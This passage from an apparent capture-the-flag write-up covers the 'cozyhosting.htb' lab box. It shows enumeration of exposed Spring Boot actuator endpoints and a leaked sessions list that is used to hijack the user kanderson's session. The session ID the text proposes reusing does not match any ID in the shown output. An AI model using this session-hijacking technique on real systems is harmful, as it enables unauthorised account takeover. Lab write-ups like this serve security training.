 There is an interesting directory `/error` which gives us a `500` error.

![ERROR](error.png)

After some research, I found that this is a Spring Boot application. I found [endpoints](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html) which can be used to get information about the application and the users.

 Most applications choose exposure over HTTP, where the ID of the endpoint and a prefix of `/actuator` is mapped to a URL

`http://cozyhosting.htb/actuator`

```
{"_links":{"self":{"href":"http://localhost:8080/actuator","templated":false},"sessions":{"href":"http://localhost:8080/actuator/sessions","templated":false},"beans":{"href":"http://localhost:8080/actuator/beans","templated":false},"health-path":{"href":"http://localhost:8080/actuator/health/{*path}","templated":true},"health":{"href":"http://localhost:8080/actuator/health","templated":false},"env":{"href":"http://localhost:8080/actuator/env","templated":false},"env-toMatch":{"href":"http://localhost:8080/actuator/env/{toMatch}","templated":true},"mappings":{"href":"http://localhost:8080/actuator/mappings","templated":false}}}
```

`http://cozyhosting.htb/actuator/sessions`

```
{"72003A03B6764227BC3CCF7CACBC2398":"kanderson","A1D1780B7829A82365EB82BCFE94581A":"kanderson","50D5D7DCF90692DD82DCE08013AF225E":"UNAUTHORIZED","AD0227D38C05591F370F926979B5EA13":"UNAUTHORIZED"}
```

We found a username `kanderson` with a session ID `CDE3F3751638A269DC3ECF528C393871`. Let's use this session ID to access the application.

![JESSIONSID](jessionid.gif)
